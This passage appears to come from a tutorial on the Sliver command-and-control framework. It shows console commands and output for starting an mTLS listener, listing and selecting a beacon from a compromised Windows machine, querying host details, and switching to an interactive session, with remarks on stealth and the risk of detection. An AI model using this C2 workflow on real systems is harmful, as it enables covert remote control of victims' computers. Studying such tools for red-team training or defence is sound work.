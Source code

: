we start a listener:
```bash
sliver > mtls -l <PORT>

[*] Starting mTLS listener ...[*] Successfully started job #2

[*] Beacon c46b2b6e RICH_BRUSH - IP:PORT (DESKTOP-DUQ8TTD) - windows/amd64 - Fri, 03 Jan 2025 22:05:16 SAST
```

Assume we tranfered the payload and ran it on the target's execute, we got an Beacon working !!!! we now have access over the target's computer remotely over the internet. We can list our beacons by entering beacons

```bash
sliver > beacons

ID Name <SNIP>      Hostname         Username   Operating System <SNIP> c46b2b6e RICH_BRUSH  DESKTOP-DUQ8TTD   me         windows/amd64  <SNIP>sliver >
```

we can interact with a shell by entering "use" and then hit enter, you will be prompted with a list of your sessions and beacons, select the correct beacon, and hit enter again. alternatavely, we can use the shell ID to connect as follow

```bash
sliver > use c46b2b6e

[*] Active beacon RICH_BRUSH (c46b2b6e-f408-4829-8899-64472c646b57)sliver (RICH_BRUSH) >
sliver (RICH_BRUSH) > info

Beacon ID: c46b2b6e-f408-4829-8899-64472c646b57
              Name: RICH_BRUSH
          Hostname: DESKTOP-DUQ8TTD
              UUID: 52384d56-7437-0384-131a-4e4d1ede2a45
          Username: DESKTOP-DUQ8TTD\\me
               UID: S-1-5-21-2574036656-4060413577-2053307646-1001
               GID: S-1-5-21-2574036656-4060413577-2053307646-513
               PID: 1332
                OS: windows
           Version: 10 build 19045 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://<displays server public ip>:4040
    Remote Address: <displays public ip>:25685
         Proxy URL: 
          Interval: 5s
            Jitter: 3s
     First Contact: Fri Jan  3 22:05:38 SAST 2025 (27m1s ago)
      Last Checkin: Fri Jan  3 22:08:50 SAST 2025 (23m49s ago)
      Next Checkin: Fri Jan  3 22:08:55 SAST 2025 (23m44s ago)
```

We proceded to run the info command to get some basic information of the compromised endpoint, however, we notice that the entered command do take a while before getting an output, this behaviour is normal, it is because we are on beacon mode, it supposed to help to be stealthy. 
To move from beacon made to live session, where we do not have any delay, we enter the command interactive and hit enter (bad for OPSEC, higher risk to get caught)
